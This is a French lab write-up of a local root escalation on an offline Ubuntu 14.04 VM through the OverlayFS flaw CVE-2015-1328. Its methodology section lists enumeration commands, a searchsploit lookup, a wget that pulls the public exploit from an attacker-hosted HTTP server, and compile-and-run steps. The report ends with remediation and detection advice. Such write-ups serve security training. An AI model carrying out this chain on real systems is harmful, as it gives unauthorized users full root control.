








# Rapport — Escalade de privilèges locale via OverlayFS (CVE-2015-1328)

| | |
|---|---|
| **Auteur** | Gédéon Cibanvunya |
| **Type** | Lab offensif — Post-exploitation / Privilege Escalation |
| **Environnement** | Machine vulnérable locale (CTF perso, hors ligne), VM Ubuntu 14.04 LTS |
| **Statut** | Root obtenu — vulnérabilité confirmée et exploitée avec succès |

---

## ⚠️ Avertissement

Ce test a été réalisé exclusivement dans un environnement de laboratoire personnel et isolé (machine virtuelle non connectée à un réseau de production), dans un cadre strictement pédagogique. Aucune action décrite ici ne doit être reproduite sur un système sans autorisation explicite du propriétaire.

---

## 1. Résumé exécutif

Un accès initial non privilégié (utilisateur `karen`) avait été obtenu sur une VM Ubuntu 14.04 (noyau 3.13.0-24-generic). L'énumération post-exploitation a confirmé l'absence de tout vecteur d'escalade évident (pas de droits `sudo`, pas d'accès à `/etc/shadow`). L'identification précise de la version du noyau a permis de cibler **CVE-2015-1328**, une faille locale dans **OverlayFS** affectant les noyaux Linux 3.13.0 à 3.19 sur Ubuntu 12.04/14.04/14.10/15.04. L'exploit public (`37292.c`, Exploit-DB) a été transféré, compilé et exécuté sur la cible, permettant l'obtention d'un accès **root** complet, confirmé par `whoami` et `id`.

---

## 2. Contexte et portée

- **Cible :** VM Ubuntu 14.04 LTS, hostname `wade7363`, noyau `3.13.0-24-generic`
- **Accès de départ :** utilisateur `karen` (identifiants obtenus en amont, hors scope de ce rapport)
- **Objectif :** élévation de privilèges de `karen` (utilisateur standard) vers `root`
- **Machine attaquante :** Kali Linux

---

## 3. Méthodologie

### 3.1 Accès initial

Connexion SSH à la cible avec le compte `karen` précédemment compromis.



### 3.2 Énumération des privilèges

Vérification systématique des droits de l'utilisateur avant toute recherche d'exploit :

- `whoami` / `groups` → confirmation du compte `karen`, aucun groupe privilégié
- `cat /etc/shadow` → accès refusé (`Permission denied`)
- `cd /root` → accès refusé
- `sudo -l` → `karen` n'est pas autorisé à exécuter `sudo` sur cette machine



**Conclusion de l'étape :** aucun vecteur d'escalade par mauvaise configuration évidente (sudoers, SUID connu, etc.). La piste suivante est une vulnérabilité du noyau lui-même.

### 3.3 Identification de la version du noyau

```
uname -a
uname -r
```

→ `Linux wade7363 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64`



Cette étape est essentielle : elle conditionne le choix de l'exploit et évite de tester à l'aveugle un code qui ne correspondrait pas à la version réelle du système.

### 3.4 Recherche d'exploit

Recherche croisée dans la base locale Exploit-DB via `searchsploit`, sur le CVE identifié puis sur le mot-clé technique :

```
searchsploit --cve 2015-1328
searchsploit overlayfs
```

Les deux recherches convergent vers le même exploit : `linux/local/37292.c` — *Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) — 'overlayfs' Local Privilege Escalation*.



Vérification de la fiche Exploit-DB correspondante (EDB-ID 37292, CVE-2015-1328, vérifié EDB) :



### 3.5 Transfert de l'exploit

Un serveur HTTP temporaire est monté côté attaquant pour exposer le fichier source :

```
python3 -m http.server 3200
```



Côté cible, récupération du fichier avec `wget` :

```
wget http://<IP_attaquant>:3200/37292.c
```



### 3.6 Compilation et exécution

Compilation locale sur la cible (nécessaire pour correspondre à l'architecture et aux bibliothèques du système visé) puis exécution :

```
gcc 37292.c -o ofs
./ofs
```

### 3.7 Validation de l'accès root

```
whoami
id
```

→ `root` / `uid=0(root) gid=0(root) groups=0(root),1001(karen)`



L'accès root est confirmé par deux commandes distinctes, évitant de conclure sur un seul indicateur.

---

## 4. Analyse technique de la vulnérabilité

CVE-2015-1328 exploite un défaut dans l'implémentation d'**OverlayFS** combinée aux *user namespaces* non privilégiés du noyau Linux. Le mécanisme de copie-up d'OverlayFS ne vérifie pas correctement les permissions effectives (capacités) de l'utilisateur dans le contexte du namespace, ce qui permet à un utilisateur non privilégié de créer des fichiers appartenant à root sur le système de fichiers réel. L'exploit public automatise cette chaîne (montage, copie-up, écriture dans `/etc/ld.so.preload`) pour obtenir l'exécution de code en tant que root.

---

## 5. Impact

Un utilisateur local non privilégié peut obtenir un accès root complet sur le système, compromettant l'intégrité, la confidentialité et la disponibilité de la machine dans son ensemble (lecture/écriture de tous les fichiers, persistance, pivot potentiel vers d'autres systèmes).

---

## 6. Remédiation

- **Mettre à jour le noyau** vers une version patchée (> 3.19 ou backport du correctif pour les branches LTS concernées).
- **Restreindre les user namespaces non privilégiés** si leur usage n'est pas requis :
  ```
  sysctl -w kernel.unprivileged_userns_clone=0
  ```
- Appliquer une politique de patch management régulière, en particulier sur les composants noyau exposés à des utilisateurs locaux multiples.
- Surveiller l'exécution de binaires compilés localement dans les répertoires utilisateurs via un EDR/auditd (`execve` suivi de `mount` inhabituel).

---

## 7. Validation post-remédiation

*(Étape non réalisée dans ce lab — à ajouter après application du correctif : relancer l'exploit et confirmer l'échec, à l'image de la méthodologie employée pour le lab SSH.)*

---

## 8. Conclusion

Ce lab illustre une chaîne complète d'escalade de privilèges locale : énumération méthodique, identification précise de la version du noyau, recherche d'exploit croisée (CVE + mot-clé technique), transfert et compilation sur cible, puis validation rigoureuse du résultat. L'exercice souligne l'importance critique du patch management du noyau, un vecteur souvent sous-estimé face aux vulnérabilités applicatives.
